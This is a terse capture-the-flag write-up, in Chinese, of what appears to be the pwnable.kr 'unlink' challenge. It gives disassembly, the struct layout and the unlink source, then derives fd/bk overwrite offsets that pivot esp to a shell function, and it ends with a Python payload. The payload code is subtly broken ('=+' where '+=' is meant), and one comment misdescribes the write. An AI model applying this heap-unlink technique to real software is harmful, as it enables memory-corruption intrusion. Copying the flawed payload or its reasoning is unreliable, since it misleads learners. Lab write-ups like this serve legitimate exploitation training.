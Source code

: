 # unlink

有給 stack and heap address

並且可以從A 蓋掉 B fd bk

- 080484eb <shell>


main 函數結尾異常






main
```
 80485f2:       e8 0d ff ff ff          call   8048504 <unlink>
 80485f7:       83 c4 10                add    esp,0x10
 80485fa:       b8 00 00 00 00          mov    eax,0x0
 80485ff:       8b 4d fc                mov    ecx,DWORD PTR [ebp-0x4]
 8048602:       c9                      leave  ; mov esp ebp；pop ebp
 8048603:       8d 61 fc                lea    esp,[ecx-0x4]
 8048606:       c3                      ret    ; pop eip ,jmp eip
```



```
  char *A; // [esp+4h] [ebp-14h]  //stack leak
  _DWORD *C; // [esp+8h] [ebp-10h]
  _DWORD *B; // [esp+Ch] [ebp-Ch]
```

主要漏洞出在 unlink


把 shell 位置 寫入 heap_leak + 0xc 

我們要控制 esp = shell 地址 = [ecx - 0x4] = [heap_leak + 0xc] = 0x080484eb

ecx = heap_leak + 0x10

---

ebp = stack_leak + 0x14

ebp-0x4 = stack_leak + 0x14 - 0x4

---

ecx = heap_leak + 0x10 = [ebp-0x4] = [stack_leak - 0x10]

---

FD + 0x4 = stack_leak + 0x10

FD = stack_leak + 0xc

BK = heap_leak + 0x10 

```c
A{
    struct tagOBJ* fd; //heap_leak
    struct tagOBJ* bk; //heap_leak+4
    char buf[8];        // heap_leak+8

}

B{
    struct tagOBJ* fd;
    struct tagOBJ* bk;
    char buf[8];
}
```

```python
payload = b'AAAA'           # A+0x8
payload =+ p32(0x080484eb)  # A+0xc
payload =+ b'A'*8           # padding chunk header
payload =+ p32(stack_leak + 0xc) # B fd
payload =+ p32(heap_leak + 0x10) # B bk
```

```
void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        
        BK=P->bk; //B bk =  heap_leak + 0x10
        FD=P->fd; //B fd = stack_leak + 0xc

        FD->bk=BK; //write *(heap_leak +0x10 ) to (stack_leak+0xc)
        BK->fd=FD; 
}
```







```
unlink@pwnable:~$  checksec unlink
[*] '/home/unlink/unlink'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```